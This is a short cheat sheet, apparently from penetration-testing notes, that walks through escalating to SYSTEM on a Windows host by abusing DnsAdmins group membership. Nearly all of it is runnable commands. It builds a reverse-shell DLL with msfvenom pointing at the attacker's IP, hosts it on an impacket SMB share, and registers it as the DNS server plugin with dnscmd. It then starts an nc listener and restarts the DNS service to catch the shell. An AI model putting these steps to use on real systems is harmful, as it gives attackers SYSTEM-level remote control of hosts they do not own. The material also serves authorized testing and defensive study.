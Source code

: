 # DnsAdmins

If the current user is a member of DnsAdmins group, then we can try to escalate privileges.

Generate a payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f dll -o rev.dll
```

Setup an SMB server:

```
impacket-smbserver <share_name> $(pwd) -smb2support
```

On the victim execute this command:

```
dnscmd.exe /config/ /serverlevelplugindll \\<YOUR_IP>\<YOUR_SHARE_NAME>\rev.dll
```

Setup a nc listener:

```
rlwrap nc -lvp 443
```

Restart the DNS service:

```
sc.exe \\victim_hostname stop dns
sc.exe \\victim_hostname start dns
```

Receive a reverse shell as NT AUTHORITY\SYSTEM:

```
rlwrap nc -lvp 443

# DID YOU RECEIVED A SHELL?
```
